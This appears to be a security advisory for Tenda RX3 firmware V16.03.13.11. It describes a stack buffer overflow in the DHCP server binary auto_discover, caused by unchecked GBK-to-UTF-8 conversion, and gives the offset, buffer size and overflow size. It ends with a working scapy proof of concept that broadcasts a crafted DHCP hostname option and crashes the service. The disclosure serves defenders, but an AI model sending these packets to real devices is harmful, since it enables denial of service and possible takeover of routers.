

| Firmware Name | Firmware Version    | Download Link |
| ------------- | ------------------- | ------------- |
| RX3           | V16.03.13.11_multi  | https://static.tenda.com.cn/tdeweb/download/RX3/US_RX3V1.0br_V16.03.13.11_multi_TDE01.zip |

## Analysis

In the `/bin/auto_discover` binary (DHCP server), the GBK-to-UTF-8 conversion function at offset `0x15e7c` writes up to 3 output bytes per 2-byte GBK input character without bounds checking. The output buffer is 256 bytes on the stack. A DHCP DISCOVER packet with a crafted Option 12 (hostname) containing 240 bytes of GBK character pairs produces ~360 bytes of UTF-8 output, overflowing by ~104 bytes and overwriting the return address.



## POC

```python
from scapy.all import *

hostname = b"\x81\x40" * 120  # 240 bytes GBK -> ~360 bytes UTF-8

pkt = (Ether(dst="ff:ff:ff:ff:ff:ff") /
       IP(src="0.0.0.0", dst="255.255.255.255") /
       UDP(sport=68, dport=67) /
       BOOTP(chaddr=b"\xaa\xbb\xcc\xdd\xee\xff") /
       DHCP(options=[
           ("message-type", "discover"),
           ("hostname", hostname),
           "end"
       ]))

sendp(pkt, iface="eth0")
# auto_discover crashes (SIGSEGV)
```
